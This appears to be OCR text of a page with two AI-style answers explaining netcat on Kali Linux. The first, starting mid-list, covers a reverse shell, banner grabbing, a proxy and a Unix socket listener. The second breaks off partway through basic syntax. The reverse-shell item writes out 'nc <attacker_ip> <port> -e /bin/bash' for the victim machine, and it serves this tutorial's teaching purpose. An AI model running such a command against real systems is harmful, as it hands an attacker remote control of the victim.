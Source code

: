 3. **Reverse Shell**:
   - On the attacker machine (listener):
     ```
     nc -l -p <port>
     ```
   - On the target machine (victim):
     ```
     nc <attacker_ip> <port> -e /bin/bash
     ```
   This will create a reverse shell, allowing the attacker to execute commands on the target machine.

4. **Banner Grabbing**:
   ```
   nc -v <target_ip> <port>
   ```
   This command will connect to the specified port on the target IP and display any banner information that the service is broadcasting.

5. **TCP/UDP Proxy**:
   - On the proxy machine:
     ```
     nc -l -p <local_port> | nc <remote_ip> <remote_port>
     ```
   This command will create a TCP/UDP proxy, forwarding traffic between the local port and the remote host and port.

6. **Listening on a Unix Socket**:
   ```
   nc -lU /tmp/mysocket.sock
   ```
   This will create a Unix domain socket listener at the specified path.

These are just a few examples of how `netcat` can be used on Kali Linux. The tool is incredibly versatile and can be used for a wide range of network-related tasks, including network troubleshooting, penetration testing, and more.







                                                      ALTERNATIVE
Netcat is a powerful tool that comes pre-installed on Kali Linux, and it's widely used for network exploration, troubleshooting, and even exploitation. In this answer, I'll cover the basics of netcat, its uses, and provide some examples.

**What is Netcat?**

Netcat is a command-line utility that reads and writes data across network connections, using the TCP or UDP protocols. It's often referred to as the "Swiss Army knife" of network tools because of its versatility and simplicity.

**Basic Netcat Syntax**

The basic syntax of netcat is:
```
nc [options] [host] [port]
```
Where:
